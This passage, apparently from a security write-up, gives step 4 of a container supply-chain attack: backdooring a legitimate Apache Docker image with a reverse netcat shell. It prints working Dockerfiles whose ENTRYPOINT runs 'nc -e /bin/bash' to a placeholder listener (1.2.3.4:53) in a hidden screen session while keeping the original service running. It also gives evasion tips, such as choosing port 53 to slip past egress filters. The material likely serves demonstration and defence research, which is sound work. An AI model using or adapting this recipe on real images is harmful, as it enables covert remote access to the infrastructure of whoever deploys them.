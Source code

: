 ### **Step 4**: Infect the legitimate image with a reverse netcat shell

There are multiple ways of infecting a container image, depending on the actual goal the attacker is trying to achieve (e.g. reverse shell, ransomware, etc.). In this case, our goal is to acquire a foothold in the container-based infrastructure(s) where the image is deployed, by infecting it with a reverse netcat shell using the information gathered in the previous steps. The idea is to build an infected image upon the legitimate one, by extending it with our reverse shell, without altering its original behavior.

In order to keep the original behavior of the legitimate image, we need to make sure our reverse shell runs in the background, while the original ENTRYPOINT and CMD commands still execute in the foreground when the image is instantiated into a container.

One way to achieve that is by using the screen tool, which allows running multiple sessions of processes in the background. The Dockerfile used to infect a container image based on Debian is therefore as follows:

```shell
FROM <name_of_image_to_infect>
RUN apt-get update && apt-get install screen netcat-traditional -y
ENTRYPOINT screen -d -m /bin/nc.traditional <listening_address> <listening_port> -e /bin/bash && <original_ENTRYPOINT_command> <original_CMD_command>
```
Note that depending on the Linux distribution the original image is based on, the package manager used to install the screen and netcat tools will be different. The name of the actual package for netcat and the way to run it might also differ from one distribution to another.

In our case, the final Dockerfile used to infect the targeted Apache image is as follows:

```shell
FROM trs1/httpd-poc:stable
RUN apt-get update && apt-get install screen netcat-traditional -y
ENTRYPOINT screen -d -m /bin/nc.traditional 1.2.3.4 53 -e /bin/bash && httpd-foreground
```

Note that our netcat listener is listening on the (fake) 1.2.3.4:53 address in this case. The reason for using port 53 is that it tends to be allowed even in infrastructures where outbound traffic is restricted.

Note also that we are starting our netcat-shell screen and the original command used by the targeted image using an ENTRYPOINT instruction. This will make sure that in case our infected image is instantiated with specific command-line options (common in Kubernetes pod definitions), the execution of our code will not be overwritten, contrary to using a CMD instruction.

We can now build our Dockerfile to obtain a malicious version of the targeted image as follows, using a tag of our choice (“infected” in this case):

```shell
docker build -t trs1/httpd-poc:infected .
```
